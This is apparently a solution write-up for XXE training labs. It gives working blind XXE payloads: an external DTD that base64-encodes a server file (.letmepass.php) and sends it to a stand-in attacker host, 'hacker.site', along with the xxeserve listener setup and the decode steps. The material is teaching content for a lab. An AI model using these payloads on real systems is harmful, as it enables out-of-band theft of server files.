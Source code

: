 Create evil_oob.dtd as follows:
```xml
<!ENTITY % resource SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/6/.letmepass.php">
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM 'http://hacker.site:2108/?p=%resource;'>">
```

> [Note] http://hacker.site:2108/xml?p=%resource is the path where the xxeserve shell is listening; you can change it with what you want.

- Run the xxeserve script

ruby xxeserve.rb

> [Note] You can improve xxeserve by adding the following lines. With this way, you can customize the port and host to use:

```bash
set :bind, 'hacker.site'
set :port, 2108
```

Base64 Decode

Decode what the shell has received! Check the files folder
```bash
cat files/{IP.TIME} | base64 -d
```

### Solutions - Lab #7

In a folder full of files, there is a special one... the flaw is blind:

*Get out of here, but wait... wheres the hidden file?!*

Exploitation steps

The solution is in Background.php; this is a blind XXE exploitation, so you need to set up an OOB channel.

Here are the steps:
```
- Retrieve the .letmepass file for instructions
- Automate the retrieving process
```

a. Retrieve the .letmepass file for instructions

Craft the XML payload moving the external entity definitions in another DTD file (evil_oob.dtd)

File: exploit.sh
```xml
<?xml version='1.0'?> 
<!DOCTYPE xxe [
    <!ENTITY % EvilDTD SYSTEM 'http://hacker.site/evil_oob.dtd'>
    %EvilDTD;
    %LoadOOBEnt;
    %OOB;
]>
<login> 
    <username>XXEME</username> 
    <password>password</password> 
</login>
```

